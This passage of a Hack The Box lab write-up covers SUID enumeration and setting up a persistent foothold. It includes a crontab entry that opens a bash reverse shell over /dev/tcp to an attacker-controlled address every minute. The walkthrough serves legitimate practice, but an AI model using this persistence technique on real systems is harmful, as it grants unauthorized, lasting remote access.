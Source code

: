 ![06 - users with shell access](06%20-%20users%20with%20shell%20access.md)
#### SUID binaries
![replace-me-17](img/replace-me-17.png)
There's not much that can be done with the SUID binaries.  Attempts to abuse `sudo` fail.
![replace-me-18](img/replace-me-18.png)

>[!note]
>As other HTB users work through this machine, you may find they have left behind artifacts which can be exploited to gain user(s).  If the Spirit moves you, be my guest

#### Persistent foothold

The best success I had with a persistent foothold was by creating a crontab entry for the `postgres` user.

In the reverse shell on the attacker:
```bash
[EDITOR=vim] crontab -e
```

The `[EDITOR=vim]` is optional - if you include this (without the square brackets), it forces `crontab` to use `vim` as the editor, otherwise it uses the default editor, which is typically `nano`.  Dealer's choice. See note at end of section.

Add this line to the bottom of the crontab.
```crontab
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker>/<port> 0>&1'
```

This entry sends a reverse shell to the attacker IP every minute.

I had varying success with attempting to create and transfer SSH keys, but the crontab technique seems to be the most reliable.  The reverse shell will make your screen behave strangely, so if you use `vim`, just have faith.
